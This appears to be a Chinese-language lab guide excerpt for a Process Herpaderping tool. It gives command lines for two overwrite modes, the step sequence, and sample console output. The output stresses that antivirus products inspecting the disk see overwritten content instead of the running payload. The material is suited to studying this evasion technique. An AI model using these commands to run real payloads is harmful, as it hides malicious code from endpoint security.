 **方法1：使用模式覆盖**（推荐用于测试）：
```bash
./build/x64/process_herpaderping.exe build/x64/test_payload.exe build/x64/target.exe
```
- 将 `test_payload.exe` 复制到 `target.exe`
- 创建镜像节
- 用 `0xCC` 模式覆盖 `target.exe`
- 从缓存的节创建进程

**方法2：使用文件覆盖**：
```bash
./build/x64/process_herpaderping.exe build/x64/test_payload.exe build/x64/target.exe C:\Windows\System32\calc.exe
```
- 将 `test_payload.exe` 复制到 `target.exe`
- 创建镜像节
- 用 `calc.exe` 的内容覆盖 `target.exe`
- 从缓存的节创建进程（执行 test_payload）

### 观察要点

**1. 控制台输出**
成功的执行会显示以下关键步骤：
```
[1] 打开源文件
    源文件已打开

[2] 创建目标文件
    目标文件已创建

[3] 复制载荷到目标文件
    载荷已复制

[4] 创建内存节对象（SEC_IMAGE）
    节句柄：0x...
    关键：此时镜像节已被缓存！

[5] 从内存节创建进程（NtCreateProcessEx）
    进程已创建！
    进程 ID：xxxxx

[6] 覆盖目标文件内容（Herpaderping！）
    使用 0xCC 模式覆盖
    已用 0xCC 模式覆盖目标文件

    ★ 关键点：磁盘文件已修改，但缓存的节未变！
    ★ 安全产品检查磁盘时看到的是修改后的内容！

[7] 查询进程基本信息
    PEB 地址：0x...
    镜像基址：0x...

[8] 获取入口点并创建线程
    入口点 VA：0x...

[9] 创建线程（触发进程通知回调）
    线程已创建！

    ★ 此时内核进程通知回调触发！
    ★ 安全产品检查到的是覆盖后的文件！

[10] 关闭文件句柄
     文件句柄已关闭
     ★ IRP_MJ_CLEANUP 触发，检查仍是覆盖后的内容！
```
